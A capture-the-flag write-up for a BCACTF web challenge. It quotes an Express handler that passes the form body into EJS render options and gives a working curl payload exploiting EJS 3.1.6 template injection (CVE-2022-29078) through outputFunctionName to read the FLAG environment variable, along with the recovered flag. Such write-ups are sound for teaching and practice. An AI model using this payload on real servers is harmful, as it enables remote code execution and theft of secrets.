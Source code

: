 ```yaml
---
created: 2024-06-10T01:41
updated: 2024-06-10T23:17
---
```


> This old service lets you make some interesting queries. It hasn't been updated in a while, though.

---

```js
res.render('search', {
	summary,
	notFound: false,
	...req.body
})
```

The server dumped all of our form body into express view options, ~~that's great~~ that's not good, …and `ejs@3.1.6` has a 9.8/10 RCE.

Find more info here [EJS, Server side template injection RCE (CVE-2022-29078) - writeup | ~#whoami Eslam Salem](https://eslam.io/posts/ejs-server-side-template-injection-rce/).

With the information we have we can create our payload easily.

```sh
curl --request POST \
  --url http://challs.bcactf.com:30684/ \
  --header 'Content-Type: application/x-www-form-urlencoded' \
  --data breed=pekin \
  --data 'settings[view options][outputFunctionName]=x;__output+=Deno.env.get("FLAG");s'
```

And boom, our flag is here.

```flag
bcactf{a_l1Ttl3_0uTd4T3d_qYR8IeICVTLPU0uK}
```
